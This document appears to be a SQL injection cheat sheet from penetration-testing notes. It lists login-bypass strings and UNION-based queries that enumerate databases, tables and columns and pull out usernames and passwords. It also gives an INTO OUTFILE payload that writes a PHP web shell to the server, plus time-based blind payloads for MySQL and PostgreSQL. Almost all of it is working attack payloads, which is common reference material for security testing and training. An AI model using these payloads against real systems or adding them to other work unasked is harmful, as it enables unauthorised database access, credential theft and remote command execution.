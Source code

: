 ### Testing

!!! tip
    📜 Recommended wordlists: `/usr/share/seclists/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt`

```shell
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'OR "='
'='
'LIKE'
'=0--+
admin'-- -
admin'--
```

### Union

**Requirements**:

1. The injected **UNION** query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.

```shell
# detect number of columns
' ORDER BY 1-- //
' union select 1,2,3,4,5--

# show data on the columns with the same datatype
' union select database(), user(), @@version, null, null -- //

# show databases
' union select null, null, null, schema_name from information_schema.schemata-- -'
# show tables
' union select null, null, null, table_name from information_schema.tables where table_schema=<table_schema>-- -'
# show columns 
' union select null, null, null, column_name from information_schema.columns where table_name=<table_name>-- //

# extract data
' union select null, null, null, group_concat(username, 0x3a, password), null from users -- //

# abuse SELECT INTO_OUTFILE in MySQL
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

### Blind (Time based)

```shell
# if user exists, app hangs for 3 seconds
' AND IF (1=1, sleep(3),'false') -- //

# postgresql sleep
'; select pg_sleep(10);-- -'
```
